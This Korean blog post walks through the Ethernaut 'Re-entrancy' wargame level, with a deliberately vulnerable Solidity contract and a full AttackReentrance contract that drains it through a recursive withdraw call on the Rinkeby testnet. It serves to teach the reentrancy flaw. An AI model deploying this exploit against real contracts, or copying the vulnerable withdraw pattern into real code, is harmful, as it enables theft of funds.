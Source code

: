 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 10) Re-entrancy
date: '2022-01-13 16:20:00'
author: 한성원
tags: ethernaut Re-entrancy vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Reentrance contract의 모든 Ether 훔쳐오기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Reentrance {

    using SafeMath for uint256;
    mapping(address => uint) public balances;

    // _to에게 기부할 수 있는 function 
    function donate(address _to) public payable {
        // 기부 받는 사람의 balance를 msg.value만큼 늘린다.
        balances[_to] = balances[_to].add(msg.value);
    }

    // _who의 balance를 return 한다.
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    // 자신이 가지고 있는 balance에서 인출(withdraw)할 수 있다.
    function withdraw(uint _amount) public {
        // msg.sender의 balance가 인출하려는 액수와 같거나 큰지 체크
        if(balances[msg.sender] >= _amount) {
            // msg.sender에게 _amount의 액수만큼 Ether를 보낸다.
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
                _amount;
            }
            // balance에서 인출한 만 balance를 줄인다.
            balances[msg.sender] -= _amount;
        }
    }
    
    receive() external payable {}
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Reentrance는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Reentrance contract에서 모든 Ether를 훔쳐오는 것이다.

위 코드는 취약점 시리즈 1에서 공부했었던 [Reentrancy Attack](https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/)와 비슷한 코드를 가지고 있다. 

이 문제에 들어가기 전에 우리가 알아야 할 것은 함수를 실행하는 도중에 다시 함수가 불릴 수 있다는 것이다. Ethernaut에세 주는 힌트에서 알 수 있듯이 다른 contract를 통해 이를 가능케 할 수 있다.

AttackReentrance contract를 한번 보며 더 이해해보자!

우선 console 창에서 여러가지 정보를 확인해 보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// contract가 가지고 있는 ether의 양 확인
await getBalance(instance) 
```


```solidity
contract AttackReentrance {

    Reentrance reentrance;
    // value라는 변수를 통해 donate하는 액수와 withdraw하는 액수를 같게 만들었다.
    uint256 value;
    
    // constructor
    constructor(address payable _reentrance) public {
        // attack 할 contract 불러오기
        reentrance = Reentrance(_reentrance);
        // value를 0.001 ether로 설정: Reentrance contract의 balance가 0.001 ehter 였기 때문에 이렇게 설정했다.
        value = 0.001 ether;
    }

    // Reentrance contract의 donate 함수를 실행시키는 함수
    function attackDonate() public payable {
        // msg.value가 value 값과 같은지 확인
        require(value == msg.value);
        // Reentrance contract의 donate 함수 실행
        reentrance.donate{value: msg.value}(address(this));
    }

    // Reentrance의 withdraw 함수를 실행
    function attackWithdraw() public payable {
        // 자신에게 value 만큼 donate했기 때문에 value만큼 인출한다.
        reentrance.withdraw(value);
    }

    // receive function
    receive() external payable {
        // 돈을 인출하자마자 다시 withdraw를 call한다.
        // 실질적인 공격 코드!
        reentrance.withdraw(value);
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다. 그럼 아래와 같은 버튼들이 나올 것이다. 

![remix_attack_reentrance](remix_attack_reentrance.png)
위 버튼들 중에서 attackDonate 버튼을 눌러 donate하고 attackWithdraw를 통해 withdraw 하면 공격이 끝난다. 

이후 
```javascript
// contract가 가지고 있는 ether의 양 0이 된 것을 확인 할 수 있다.
await getBalance(instance) 

// attackContract 가 가지고 있는 ether의 양이 늘어날 것을 확인할 수 있다
await getBalance("address of attackContract")
```


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
Reentrancy attack은 굉장히 유명한 공격 중 하나이다. 내가 지금까지 다뤘던 것은 Reentrancy on a Single Function 이었다. The DAO 사태는 Cross-function Reentrancy였던만큼 Cross-function도 꼭 한번 다뤄야겠다고 느낀다. 나머지 시리즈도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Re-entrancy 취약점: https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/

```toc

```